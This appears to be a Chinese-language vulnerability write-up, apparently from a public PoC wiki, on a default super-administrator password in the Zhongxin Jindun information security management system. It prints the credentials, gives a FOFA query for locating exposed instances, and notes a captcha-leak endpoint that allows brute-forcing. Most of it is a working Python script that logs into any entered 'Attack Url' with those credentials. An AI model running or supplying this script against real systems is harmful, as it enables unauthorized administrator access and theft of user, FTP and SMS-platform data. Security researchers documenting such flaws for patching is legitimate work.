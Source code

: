 # 中新金盾信息安全管理系统 默认超级管理员密码漏洞

## 漏洞描述

中新网络信息安全股份有限公司中新金盾信息安全管理系统存在默认弱口令，登录身份为超级管理员 目前大部分使用的都受到了影响

## 漏洞影响

> [!NOTE]
>
> 中新金盾信息安全管理系统

## FOFA

> [!NOTE]
>
> title="中新金盾信息安全管理系统"

## 漏洞复现

看到产品手册

![](image/zxjd-2.png)

系统默认管理员账号密码：

**admin/zxsoft1234!@#$**

![](image/zxjd-1.png)

登录页面如上，使用账号密码登录

其中泄露了大部分信息，其中包括 SMMS与FTP 及用户信息

![](image/zxjd-3.png)

![](image/zxjd-4.png)

## 漏洞利用POC

> [!NOTE]
>
> 请求  ?q=common/getcode  时
>
> 返回了验证码，通过验证码可爆破账号密码等操作

![](image/zxjd-6.png)

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 中新金盾信息安全管理系统 默认超级管理员密码漏洞                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "?q=common/getcode"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在获取验证码 {}?q=common/getcode ..... \033[0m".format(target_url))
        response_data = response.headers['Set-Cookie']
        check_code = re.findall(r'check_code=(.*?);', response_data)[0]
        PHPSESSID = re.findall(r'PHPSESSID=(.*?);', response_data)[0]
        print("\033[36m[o] 验证码:{}\n[o] PHPSESSID:{} \033[0m".format(check_code, PHPSESSID))
        POC_2(target_url, check_code, PHPSESSID)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, check_code, PHPSESSID):
    vuln_url = target_url + "?q=common/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":"PHPSESSID={}; check_code={}".format(PHPSESSID, check_code),
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
    }
    data = "name=admin&password=zxsoft1234!%40%23%24&checkcode={}&doLoginSubmit=1".format(check_code)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "1" in response.text and response.status_code == 200:
            print("\033[36m[o] 目标 {} 存在默认管理员弱口令 admin / zxsoft1234!@#$ \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](image/zxjd-5.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> ZhongXinJingDun_Default_administrator_password

![](image/zxjd-7.png)
